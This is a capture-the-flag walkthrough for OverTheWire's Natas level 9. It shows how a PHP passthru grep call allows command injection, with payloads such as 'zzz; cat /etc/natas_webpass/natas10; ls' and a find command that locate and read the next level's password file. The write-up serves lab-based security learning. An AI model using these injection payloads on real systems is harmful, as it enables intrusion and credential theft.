

# Natas Level 9
1. URL: http://natas9.natas.labs.overthewire.org

## Objective
1. Gain access to the password for natas10.

Procedure:
1. Open the website and inspect the PHP source code.

1. In the source code, notice the vulnerable       passthru function:
    - `passthru("grep -i $key dictionary.txt");`
    - Realize that you can inject your own commands by exploiting this vulnerability.

1.  Find the current directory by searching for
    - `zzz; pwd; ls `

1. Explanation
    - The reulting query from the above seach string is
    - `grep -i zzz; pwd; ls dictionary.txt`
    - We are using the semicolon to separate different commands
    - We are using `zzz` to make sure grep returns no result
    - `pwd` to print the current working directory
    - `ls` to list the dictionary.txt so that we don't have the word dictionary.txt hanging on its own at the end of the command which could cause the command to fail

1. Use the find command to find any file related to natas10 `zzz; find / -type f -name natas10 2>/dev/null; ls`
    > Output:  
    > /etc/natas_webpass/natas10
    > dictionary.txt  

1. Search for `zzz; cat /etc/natas_webpass/natas10; ls` to print the contents of .httpasswd
    - Output:  
    > [natas_10_password]   
    > dictionary.txt  

 
 
* PS: Just using the semicolon and the command can also works in some situations

    > `; cat /etc/natas_webpass/natas10`
    > 
    > Output:  
    > [natas_10_password]  
    > 
    > African  
    > Africans   
    > Allah   
    > .....
